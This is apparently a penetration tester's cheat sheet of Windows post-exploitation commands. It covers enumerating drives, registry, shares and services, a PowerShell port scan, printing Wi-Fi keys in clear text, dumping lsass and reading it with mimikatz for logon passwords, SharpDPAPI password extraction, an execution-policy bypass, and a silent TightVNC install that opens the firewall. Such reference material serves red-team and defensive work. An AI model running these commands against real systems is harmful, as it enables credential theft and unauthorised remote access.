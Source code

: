 # Windows

### General

#### Check for additional drives 

```bash
get-psdrive //powershell
show_mount // meterpreter
wmic logicaldisk get name|caption //wmic
Seatbelt MappedDrives // seatbelt
```

#### List installed programs

```bash
reg query HKEY_LOCAL_MACHINE\SOFTWARE
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall
```

#### Check linux subsystem

```bash
C:\Users\<name>\AppData\Local\Packages\CanonicalGroup...
```

#### Search writeable directories

```bash
dir /a-r-d /s /b
```

#### Search files by name

```bash
dir /s *foo*
```

#### Search Files by content

```bash
findstr /s /i <needle> *.*
```

#### Search Files by owner

```bash
dir c:\*.* /S /Q|FIND /i "owner"
```

#### Search files in meterpreter

```bash
search -f *.<ext>`
```

#### Search for alternate data streams \(ads\)

```bash
dir /s /R /a
```

#### Check named pipes in PowerShell

```bash
[System.IO.Directory]::GetFiles("\\.\\pipe\\")
```

#### Grep file contents in PowerShell

```bash
Select-String -Path <path> -Pattern <pattern> | out-host -paging
```

#### Enumerate SMB

```bash
smbmap -R -H \\<ip>
smbclient -L \\<ip> -N
smbclient \\<ip>\share -U <user>
smbget -R <ip>
```

#### Grant permissions with icacls

```bash
icacls <filename> /grant <username>(OI)(CI)F /T
```

#### Search registry

```bash
reg query HKLM /s | findstr /i <item>
reg query HKCU /s | findstr /i <item>
reg query HKLM /f <item> /t REG_SZ /s
reg query HKCU /f <item> /t REG_SZ /s
```

#### Print wlan keys

```bash
netsh wlan show profile <name> key=clear
```

#### PowerShell port scan

```bash
0..65535 | % {echo ((new-object Net.Sockets.TcpClient).Connect("<ip>",$_)) "Port $_ is open!"} 2>$null
```

#### Get User SID

```text
[wmi] "Win32_userAccount.Domain='client',Name='Administrator'"
```

#### Deploy TightVNC

```bash
msiexec /i "tightvnc.msi" /quiet /norestart ADDLOCAL="Server,Viewer" VIEWER_ASSOCIATE_VNC_EXTENSION=1 SERVER_REGISTER_AS_SERVICE=1 SERVER_ADD_FIREWALL_EXCEPTION=1 VIEWER_ADD_FIREWALL_EXCEPTION=1 SERVER_ALLOW_SAS=1 SET_USEVNCAUTHENTICATION=1 VALUE_OF_USEVNCAUTHENTICATION=1 SET_PASSWORD=1 VALUE_OF_PASSWORD=PASSWORD SET_USECONTROLAUTHENTICATION=1 VALUE_OF_USECONTROLAUTHENTICATION=1 SET_CONTROLPASSWORD=1 VALUE_OF_CONTROLPASSWORD=PASSWORD
```

#### Grep Registry for Keywords:

```text
reg query HKLM /s /f <keyword> (try HKLM/HKCU)
```

#### Find Files by Date

```bash
forfiles /P C:\ /S /D 10/24/2020 /C "cmd /c echo @PATH"
```

#### Bypass Execution Policy \(for domain users\) by changing registry as local administrator

```bash
HKLM:\Software\Policies\Microsoft\Windows\PowerShell # change value to bypass
```

#### Useful Commands in Rpcclient

```bash
rpcclient -U <user> <ip>
lookupnames <name>
lookupsids <sid>
```

#### Dumping Processes

```bash
procdump.exe -accepteula -ma <pid>
```

We can also use a short custom [program ](https://gist.github.com/xct/f78238aefa6fca8512ee2a7d0bc42f20) to avoid using procdump.

If we dump lsass, this dump can be read using mimikatz:

```text
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

### Credentials

Check for stored credentials:

```bash
cmdkey /list
```

### Company Files

This lead to success on numerous occasions. While not technical make sure you look at the files that are on the system. This includes configuration backups, documents, notes, technical documentation and more. 

### Invoke-PrivescCheck

Great [Script ](https://github.com/itm4n/PrivescCheck)to collection information about the host and possible EoP Paths.

### Seatbelt

Good Host Enumeration Tool: [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt).

```text
Seatbelt -group=all -full
```

### SharpDPAPI

Get Passwords from Chrome & Windows via [https://github.com/GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI).

```text
SharpDPAPI triage
```

### Check for running services

```bash
sc query
sc query <>
sc qc <>
reg query HKLM\SYSTEM\CurrentControlSet\Services
```

### SMBClient

#### List Shares

```text
smbclient -L \\<ip> -U anonymous
```

#### Connect to Share

Without credentials:

```text
smbclient \\server\\sharename -U "" -N
```

With credentials:

```text
smbclient \\server\\sharename -U domain\user
```

### Other

Usually you want to run the scripts/tools from the Privilege Escalation Section. Other than that these are interesting as well:

* Screenshot
* Keylogger

